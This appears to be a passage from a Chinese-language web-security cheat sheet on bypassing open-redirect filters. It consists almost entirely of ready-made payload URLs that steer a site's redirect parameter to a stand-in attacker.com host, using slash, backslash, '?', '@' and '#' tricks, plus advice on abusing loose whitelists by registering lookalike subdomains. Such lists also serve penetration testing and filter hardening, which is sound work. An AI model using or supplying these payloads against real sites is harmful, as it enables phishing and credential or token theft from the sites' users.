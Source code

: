 ### 1.2.1 单斜线绕过  
```Plain Text
http://www.xxx.com/redirect?url=/www.attacker.com  
```

### 1.2.2 缺少协议绕过  
```Plain Text
http://www.xxx.me/redirect?url=//www.attacker.com  
```

### 1.2.3 多斜线绕过  
```Plain Text
http://www.xxx.me/redirect?url=///www.attacker.com  
http://www.xxx.me/redirect?url=////www.attacker.com  
```

### 1.2.4 问号绕过  
```Plain Text
http://www.xxx.com/redirect?url=http://attacker.com?login.xxx.com  
```

### 1.2.5 正斜杠绕过  
```Plain Text
http://www.xxx.com/redirect?url=http://attacker.com/login.xxx.com  
```

### 1.2.6 反斜杠绕过  
```Plain Text
# 一个反斜杠绕过  
http://www.xxx.com/redirect?url=http://attacker.com\login.xxx.com  

# 两个反斜杠绕过  
http://www.xxx.com/redirect?url=http://attacker.com\\login.xxx.com  

# 一个反斜杠 一个点  
http://www.xxx.com/redirect?url=http://attacker.com\.login.xxx.com  
```

### 1.2.7 `@`符号绕过  
```Plain Text
http://www.xxx.com/redirect?url=http://www.xxx.com@www.attacker.com  
```

### 1.2.8 `#`符号绕过  
```Plain Text
http://www.xxx.com/redirect?url=http://www.attacker.com#www.xxx.com  
```

### 1.2.9 利用白名单缺陷绕过  
如果白名单限制不当：  
- 网站允许跳转到`www.xxx1.com`，可以使用`www.xxx1.com`尝试绕过  
- 如果白名单检测到包含`xxx.com`即可跳转，可以注册`<custom-name>.xxx.com`域名来进行跳转。  
